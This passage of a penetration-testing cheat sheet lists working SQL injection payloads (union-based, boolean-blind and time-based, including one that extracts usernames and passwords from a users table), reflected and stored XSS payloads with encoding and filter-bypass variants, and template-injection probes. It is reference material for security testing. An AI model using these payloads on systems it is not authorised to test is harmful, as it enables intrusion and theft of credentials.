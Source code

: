 #### Manual SQL Injection
```sql
-- Union-based injection
' UNION SELECT 1,2,3,4,5--
' UNION SELECT user(),database(),version(),4,5--
' UNION SELECT 1,username,password,4,5 FROM users--

-- Boolean-based blind injection
' AND (SELECT SUBSTRING(user(),1,1))='r'--
' AND (SELECT LENGTH(database()))=5--

-- Time-based blind injection
' AND SLEEP(5)--
'; WAITFOR DELAY '0:0:5'--
```

### Cross-Site Scripting (XSS)

#### Reflected XSS Testing
```html
<!-- Basic payloads -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')>

<!-- URL encoding -->
%3Cscript%3Ealert('XSS')%3C/script%3E

<!-- Double encoding -->
%253Cscript%253Ealert('XSS')%253C/script%253E

<!-- Filter bypass -->
<ScRiPt>alert('XSS')</ScRiPt>
<img src="x" onerror="alert('XSS')">
javascript:alert('XSS')
```

#### Stored XSS Testing
```html
<!-- Comment sections, user profiles, message boards -->
<script>alert('Stored XSS')</script>

<!-- Image uploads with malicious names -->
<img src=x onerror=alert('XSS')>.jpg

<!-- Template injection -->
{{7*7}}
${7*7}
<%= 7*7 %>
```
